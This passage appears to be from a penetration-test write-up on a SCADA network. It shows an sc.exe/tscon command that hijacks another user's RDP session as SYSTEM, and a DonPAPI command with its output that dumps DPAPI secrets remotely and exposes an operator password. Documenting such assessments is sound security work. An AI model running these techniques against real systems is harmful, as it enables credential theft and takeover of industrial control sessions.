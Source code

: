 Next idea was to somehow takeover the existing and inactive RDP session. Since we got privileges over the machine, we could use a know technique to hijack RDP sessions via `tscon.exe` [[8]](#references).

All we need is SYSTEM command line, either with `psexec.exe -s` or creating a service with `sc.exe` that executes the following command:

```bash
C:\Windows\system32>query user
C:\Windows\system32>sc create sesshijack binpath= "cmd.exe /k tscon TARGSESSID /dest:rdp-tcp#MYSESSIONID"
```

Once the service started, our desktop would connect to victim RDP session.

The naïve way is to open `taskmgr.exe`, right-click *disconnected* user session and click **Connect** but system requires target user password in order to successfully switch RDP console.

<img alt="" src="/assets/img/posts/2025/04/2f41b665eca3201ea13db30d967da07ce938a54661168b407d4bdd2898d5ec66.png" width="550px" height="500px" />

We avoided at all costs interfering with that system in production so `tscon` RDP hijack method was not tested this time. To access SCADA viewer running inside another user context, we needed `remote.operator` user password and started looking for it.

Our attempt using [DonPAPI](https://github.com/login-securite/DonPAPI) tool for dumping DPAPI secrets remotely revealed password for `remote.operator` saved inside a Scheduled Task configured to automatically start SCADA server at system startup.


```bash
$ donpapi collect -t 10.1.1.10 -d '.' -u supplier01 -p Password.123
    [💀] [+] DonPAPI Version 2.1.0
    [💀] [+] Output directory at /home/user/.donpapi
    [💀] [+] Loaded 1 targets
    [10.1.1.10] [+] Starting gathering credz
    [10.1.1.10] [$] [DPAPI] Got 7 masterkeys
    (...)
    [10.1.1.10] [+] Dumping User and Machine Credential Manager
    [10.1.1.10] [$] [CredMan] [SYSTEM] Domain:batch=TaskScheduler:Task:{4BCE964B-970C-4C1E-BE22-56AF28B59777} - SCADA\remote.operator:Password.123
```

